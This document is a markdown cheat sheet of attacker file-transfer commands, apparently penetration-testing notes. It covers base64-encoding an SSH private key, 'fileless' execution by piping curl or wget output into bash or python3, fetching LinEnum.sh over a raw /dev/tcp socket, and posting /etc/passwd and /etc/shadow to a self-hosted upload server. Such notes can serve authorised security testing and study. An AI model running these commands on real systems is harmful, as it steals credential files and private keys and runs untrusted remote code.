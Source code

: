 ### Base 64 Encoding 
```shell
md5sum filename
```
Encoding
```shell
cat id_rsa |base64 -w 0;echo
```
Decode
```shell
echo -n '<base 64 value>' | base64 -d > id_rsa
```

# Downloads 
## Web downloads 
```shell
wget <url> -O <output>
```
```shell
curl -o <output> <url>
```
### Fileless Attacks 
```shell
curl <url> | bash
```

```shell-session
wget -qO- <url> | python3
```

### Download with Bash (/dev/tcp)
Connect to target
```shell
exec 3<>/dev/tcp/<ip>/<port>
```
HTTP GET Request 
```shell
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
Print the response
```shell
cat <&3
```
## SSH downloads 
Enable #SSH Server 
```shell
sudo systemctl enable ssh
```
#SCP
```shell
scp <user>@<ip>:<link to file> <output> 
```


# Uploads
### Method 1 
#Python web server 
```shell
sudo python3 -m pip install --user uploadserver
```
Self Signed certificate 
```shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
Create a new directory to host the certificate
```shell
mkdir https && cd https

sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
Upload Files 
```shell
curl -X POST https://<ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
### Method 2 
#### Alternate Web servers on host 
#Python3
```shell
python3 -m http.server
```
#Python 2.7 
```shell
python2.7 -m SimpleHTTPServer
```
#PHP
```shell
php -S 0.0.0.0:8000
```
#Ruby 
```shell
ruby -run -ehttpd . -p8000
```
Download
```shell
wget <ip>:<port>/<file>
```
### SCP
```shell
scp <file> <user>@<ip>:<link to file>
```

